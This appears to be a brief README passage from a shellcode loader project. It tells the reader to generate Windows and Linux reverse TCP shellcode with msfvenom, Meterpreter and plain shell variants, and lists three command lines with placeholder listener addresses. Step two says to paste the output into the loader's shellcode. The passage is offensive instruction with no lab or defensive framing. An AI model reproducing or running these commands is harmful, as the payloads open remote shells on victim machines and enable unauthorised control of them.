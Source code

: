1. Create your shellcode with msfvenom

Windows Meterpreter Reverse TCP Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

Windwos Reverse TCP Shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> EXITFUNC=thread -f <language> -a <arch> -b <badchar>

Linux Meterpreter Reverse TCP Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>

2. Paste the output in the shellcode
